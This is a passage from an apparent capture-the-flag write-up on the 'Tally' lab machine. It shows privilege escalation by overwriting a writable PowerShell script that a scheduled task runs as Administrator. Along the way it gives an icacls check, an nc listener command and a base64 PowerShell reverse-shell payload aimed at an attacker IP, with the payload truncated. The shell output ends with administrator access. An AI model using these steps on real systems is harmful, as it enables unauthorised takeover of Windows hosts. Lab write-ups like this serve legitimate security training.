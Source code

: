 
According to trigger, it will be triggered every hour (Interval = PT1H). There are also some events related to IIS conditions.

This task will be executed as Administrator account, that is interesting.

### Privilege Escalation

The scheduled task, if activated, will execute the powershell script `SPBestWarmUp.ps1`.

```shell
icacls SPBestWarmUp.ps1
```

Result:

```text
SPBestWarmUp.ps1 NT AUTHORITY\SYSTEM:(F)
                 BUILTIN\Administrators:(F)
                 TALLY\Sarah:(F)

Successfully processed 1 files; Failed processing 0 files
```

Hopefully, Sarah user have full access on this script file.

Just as previously, using [RevShell](https://www.revshells.com/), we generate another reverse shell using the folloing configuration :

- IP : 10.10.14.17 (Attacker IP)
- port : **9002**
- Type: Reverse
- OS: Windows
- Type: "Powershell #3 (Base64)"
- Shell: bash
- Encoding: none

We do the same reverse-shell, but only change the listenig port.

We start a second listener :

```shell
rlwrap nc -nvlp 9002
```

In the current shell, we can rename (for backup) the actual script `SPBestWarmUp.ps1`, and replace it with our payload :

```shell
mv SPBestWarmUp.ps1 SPBestWarmUp.ps1.back
set-content -Path "C:\users\sarah\Desktop\SPBestWarmUp.ps1" -Value "powershell -e JABjAGwAa
... Replace Payload Here ...
UAKAApAA=="
```

Now, we have to wait for the scheduled task to be activated.

As a result, we have a priviledged powershell shell :

```text
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::9002
Ncat: Listening on 0.0.0.0:9002
Ncat: Connection from 10.10.10.59.
Ncat: Connection from 10.10.10.59:57126.
whoami
tally\administrator
PS C:\Users\Sarah\Desktop> 
```

